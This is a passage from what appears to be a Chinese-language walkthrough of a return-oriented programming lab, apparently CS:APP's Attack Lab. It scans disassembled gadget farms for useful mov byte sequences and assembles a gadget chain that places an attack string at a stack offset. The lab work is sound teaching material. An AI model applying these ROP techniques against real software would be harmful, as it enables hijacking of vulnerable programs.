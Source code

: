 代码段中以`%ecx`为目的寄存器的代码格式为`89 d1`，其转化为指令为`movl %edx, %ecx`。

那么前面的过程就变成了：

```
1. rax = rsp(48 89 e0)
2. edx = 偏移量； ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

我们再来探测一下目的寄存器为`%edx`的相关指令，其格式为`(48)* 89 (c|d|e|f)(2|a)`，包含其格式的代码段为：

```
00000000004019db <getval_481>: // 可以是他！
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq
0000000000401a1e <addval_479>: // 不可以是他！
  401a1e:	8d 87 89 c2 00 c9    	lea    -0x36ff3d77(%rdi),%eax
  401a24:	c3                   	retq
0000000000401a40 <addval_487>: // 可以是他，84 c0是 testb %al
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq
0000000000401a54 <getval_155>: // 不可以是他，c4 c9不是指令
  401a54:	b8 89 c2 c4 c9       	mov    $0xc9c4c289,%eax
  401a59:	c3                   	retq
0000000000401a8a <addval_124>: // 不可以是他，c7 37不是指令
  401a8a:	8d 87 89 c2 c7 3c    	lea    0x3cc7c289(%rdi),%eax
  401a90:	c3                   	retq
0000000000401a9e <addval_184>: // 不可以是他，60 d2不是指令
  401a9e:	8d 87 89 c2 60 d2    	lea    -0x2d9f3d77(%rdi),%eax
  401aa4:	c3                   	retq
```

代码段中以`%edx`为目的寄存器的代码格式为`89 c2`，其转化为指令为`movl %eax, %edx`。

那么前面的过程就变成了：

```
1. rax = rsp(48 89 e0)
2. eax = 偏移量；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

以`%eax`(或`%rax`)为目的寄存器的指令格式为`(48)* 89 (c|d|e|f)(0|8)`，包含其格式的代码段为：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq
0000000000401a18 <getval_345>:
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq
0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq
0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq
0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq
```